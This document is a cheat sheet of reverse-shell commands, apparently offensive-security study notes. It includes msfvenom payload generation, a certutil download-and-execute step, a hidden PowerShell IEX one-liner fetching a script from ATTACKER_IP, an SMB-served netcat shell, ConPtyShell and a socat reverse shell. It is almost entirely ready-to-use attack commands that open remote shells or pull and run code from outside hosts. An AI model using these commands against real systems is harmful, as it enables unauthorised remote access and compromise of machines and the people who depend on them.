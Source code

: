 MSFVenom:

```
//32 bit
msfvenom -p windows/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.3 LPORT=443

//64 bit
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.3 LPORT=443

//download + execute (2 stage)
certutil -urlcache -split -f http://192.168.45.3/shell.exe C:/Windows/Temp/shell.exe
C:/Windows/Temp/shell.exe
```

Invoke-PowershellTCP:

```
# Download and execute directly
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER_IP -Port 4444"
```

ConPtyShell:
https://github.com/antonioCoco/ConPtyShell
```
stty raw -echo; (stty size; cat) | nc -lvnp 3001

. .\ConPtyShell.ps1
Invoke-ConPtyShell 192.168.49.98 80
```

SMB Sharing+ CMD reverse shell (use when other payloads don’t work)
```
python /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share ~/Desktop/binaries/windows/shells

cmd /c //192.168.45.213/share/nc64.exe -e cmd.exe 192.168.45.213 4444
```

# Remote Command Execution

## Linux

1. Check Utilities (nc,ncat,base64,bash,sh,wget)
2. One liner (/bin/bash -c '') or netcat (rev or bind)
3. Base64 One liner
4. Upload file, chmod, execute

# Utilities Commands

SOCAT:
Reverse Shell
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.18:4444
```
